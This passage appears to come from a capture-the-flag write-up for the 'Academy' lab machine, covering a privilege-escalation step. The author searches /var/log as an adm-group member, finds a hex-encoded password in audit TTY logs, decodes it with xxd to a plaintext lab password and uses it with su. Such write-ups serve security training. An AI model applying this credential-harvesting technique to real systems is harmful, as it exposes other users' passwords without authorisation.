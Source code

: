 This user was the only user part of the `adm` group.

```
cry0l1t3@academy:~$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

This means we have permissions to read logs within the `/var/log` directory. Within that directory, I used `grep` to check for words like `password` and `bash`, as there might be logs where the user executed commands.

```
cry0l1t3@academy:/var/log$ grep -iRl 'bash' 2> /dev/null
journal/28c7c847c4f94b33842e7c53dc6e7741/system@57332d48f1de478cb8be0519ec020dd4-00000000002761c9-0005bae7fad221d9.journal
journal/28c7c847c4f94b33842e7c53dc6e7741/system@57332d48f1de478cb8be0519ec020dd4-0000000000253e21-0005af2e7688dcc2.journal
journal/28c7c847c4f94b33842e7c53dc6e7741/system@57332d48f1de478cb8be0519ec020dd4-0000000000271e59-0005b22b372f5398.journal
audit/audit.log.3
audit/audit.log.1
cloud-init.log
bootstrap.log
apache2/access.log
apache2/error.log
```

The `audit` directory is not an original Linux log file. Within the `audit.log` file, I found that the user `mrb3n` was executing commands:

{% code overflow="wrap" %}
```
type=USER_AUTH msg=audit(1612880436.217:92): pid=964 uid=0 auid=4294967295 ses=4294967295 msg='op=PAM:authentication grantors=pam_permit,pam_cap acct="mrb3n" exe="/usr/bin/login" hostname=academy addr=? terminal=/dev/tty1 res=success'
type=CRED_REFR msg=audit(1612880564.412:120): pid=1353 uid=0 auid=1001 ses=1 msg='op=PAM:setcred grantors=pam_permit,pam_cap acct="mrb3n" exe="/usr/bin/sudo" hostname=academy addr=? terminal=/dev/tty1 res=success
```
{% endcode %}

There are also some commands that are encoded in hex for some reason. While looking at `audit.log.3`, I found this command:

```
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

When decoded, this gives a password:

```
$ echo 6D7262336E5F41634064336D79210A | xxd -r -p
mrb3n_Ac@d3my!
```

We can then `su` to `mrb3n`.&#x20;
